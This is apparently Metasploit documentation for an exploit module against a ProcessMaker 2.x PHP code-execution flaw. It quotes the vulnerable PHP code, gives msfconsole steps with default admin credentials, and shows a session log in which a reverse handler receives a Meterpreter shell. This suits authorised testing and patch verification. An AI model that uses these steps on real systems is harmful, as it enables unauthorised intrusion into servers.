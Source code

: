 ## Description

  This module exploits a PHP code execution vulnerability in the default *neoclassic* skin for [ProcessMaker Open Source](http://www.processmaker.com/) which allows any authenticated user to execute PHP code. The vulnerable skin is installed by default in version 2.x prior to 2.5.2 and cannot be removed via the web interface.


## Vulnerable Application

  ProcessMaker is an open source, workflow management software suite, which includes tools to automate your workflow, design forms, create documents, assign roles and users, create routing rules, and map an individual process quickly and easily. It's relatively lightweight and doesn't require any kind of installation on the client computer.

  This module has been tested successfully on ProcessMaker Open Source versions:

  * 2.5.1 on Windows XP SP3
  * 2.5.0 on Windows XP SP3
  * 2.0.45 on Debian Linux
  * 2.0.23 on Windows XP SP3

  The vulnerability was patched in version 2.5.2.

  Source and Installers:

  * [ProcessMaker Open Source 2.0.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.0/)
  * [ProcessMaker Open Source 2.5.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.5/)


## Technical Details

  Several files within the default *neoclassic* skin allow authenticated users to supply a PHP function in the `action` parameter and arguments for the aforementioned function in the `params` parameter. The application calls the supplied function name with the supplied parameters resulting in execution of arbitrary user supplied PHP code.

  The relevant source code for the affected files is shown below.

  **appFolder/appFolderAjax.php**

  ```php
  if (($_REQUEST['action']) != 'rename') {
      $functionName = $_REQUEST ['action'];
      $functionParams = isset ($_REQUEST ['params']) ? $_REQUEST ['params'] : array ();
      $functionName ($functionParams);
  ```

  **cases/casesStartPage_Ajax.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```

  **cases/cases_SchedulerGetPlugins.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/http/processmaker_exec`
  3. Do: `set username [USER]`
  4. Do: `set password [PASS]`
  5. Do: `set workspace [WORKSPACE]`
  6. Do: `set rhost [IP]`
  7. Do: `run`
  8. You should get a session


## Options

  **Username**

  The username for a ProcessMaker user (default: `admin`).

  **Password**

  The password for the ProcessMaker user (default: `admin`).

  **Workspace**

  The ProcessMaker workspace for which the specified user has access (default: `workflow`).


## Scenarios

  ```
  msf exploit(processmaker_exec) > check
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending check
  [+] The target is vulnerable.

  msf exploit(processmaker_exec) > exploit
  [*] Started reverse handler on 192.168.172.1:4444
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending payload 'V7hd5EevO9Ho.php' (1795 bytes)
  [+] 192.168.172.135:80 - Payload sent successfully
  [*] 192.168.172.135:80 - Retrieving file 'V7hd5EevO9Ho.php'
  [*] Sending stage (39195 bytes) to 192.168.172.135
  [*] Meterpreter session 3 opened (192.168.172.1:4444 -> 192.168.172.135:32789) at 2013-10-29 09:53:08 -0500
  [+] Deleted V7hd5EevO9Ho.php

  ^C[-] Exploit failed: Interrupt

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : processmaker
  OS          : Linux processmaker 3.2.0-4-amd64 #1 SMP Debian 3.2.51-1 x86_64
  Meterpreter : php/php
  meterpreter > exit
  ```

